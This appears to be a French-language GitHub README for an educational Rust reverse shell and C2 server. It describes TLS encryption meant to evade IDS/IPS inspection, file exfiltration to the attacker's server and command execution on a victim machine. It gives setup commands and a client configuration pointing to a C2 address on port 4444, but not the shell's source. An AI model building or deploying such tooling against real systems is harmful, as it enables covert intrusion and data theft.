

# Rust Secure Reverse Shell & C2

> **Avertissement** : Ce projet a été développé dans un cadre **éducatif et académique** pour apprendre le langage Rust, la programmation réseau et les concepts de sécurité. L'utilisation de ce code pour attaquer des cibles sans autorisation préalable est illégale.

## Présentation

Ce projet implémente un **Reverse Shell** complet écrit en **Rust**, accompagné de son **Serveur C2 (Command & Control)**.

L'objectif principal était de créer un canal de communication furtif et sécurisé entre une machine victime (Client) et une machine attaquante (Serveur). Contrairement aux reverse shells basiques (type Netcat), celui-ci utilise une couche de chiffrement **TLS** pour empêcher l'analyse du trafic par des IDS/IPS.

### Fonctionnalités

* **Communication Chiffrée** : Tout le trafic est encapsulé dans un tunnel TLS 1.2/1.3 (via `native-tls`).
* **Architecture Client/Serveur** :
    * **Client (`reverse_shell`)** : Compatible Windows & Linux. Tente de se reconnecter automatiquement.
    * **Serveur (`server_c2`)** : Gère les connexions entrantes, maintient la session et sauvegarde les fichiers exfiltrés.
* **Commandes Internes** :
    * `download <fichier>` : Récupère un fichier distant et le sauvegarde proprement sur le serveur.
    * `upload <texte> <nom>` : Crée un fichier sur la cible avec le contenu spécifié.
    * `cd <dossier>` : Navigation persistante dans les répertoires.
* **Commandes Système** : Exécution de toutes les commandes natives de l'OS (`dir`, `ipconfig`, `whoami`, etc.).

---

## Architecture Technique


## Installation et Configuration
### Prérequis
- Rust & Cargo installés.
- OpenSSL (pour la génération des certificats).
- Environnement conseillé : Windows (Client) et Linux/Docker (Serveur).

### 1. Génération des Certificats (TLS)
Le serveur a besoin d'une identité cryptographique (.pfx) pour fonctionner. Exécutez cette commande dans le dossier server_c2 :

*Génère un certificat auto-signé et l'exporte en PKCS12 (Mot de passe: "password")*
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes -subj "/CN=localhost" && \
openssl pkcs12 -export -out identity.pfx -inkey key.pem -in cert.pem -passout pass:password
```

### 2. Configuration du Client
Ouvrez le fichier reverse_shell/src/main.rs et modifiez l'IP du serveur :

*Remplacez par l'IP de votre serveur C2 (ex: IP Docker ou IP Locale)* 
```bash
const SERVER_IP: &str = "172.17.0.2"; 
const SERVER_PORT: &str = "4444";
```
## Usage
### Étape 1 : Démarrer le Serveur (Attaquant)
Placez-vous dans le dossier du serveur (assurez-vous que identity.pfx est présent) :

```bash
cd server_c2
cargo run
```
*Le serveur se met en écoute sur le port 4444.*
### Étape 2 : Démarrer le Client (Victime)

Sur la machine cible :

```bash
cd reverse_shell
cargo run
```
### Étape 3 : Interaction


## Preuve de Sécurité (TLS)

Pour vérifier que le chiffrement fonctionne et que les commandes ne passent pas en clair :

#### Test négatif avec CURL : Essayer de se connecter au serveur avec un protocole non sécurisé (http) :
```bash
curl -v http://127.0.0.1:4444
```
*Résultat : Le serveur rejette la connexion (Empty reply) et log une erreur TLS.*

## Auteur

Mohamed MESRI


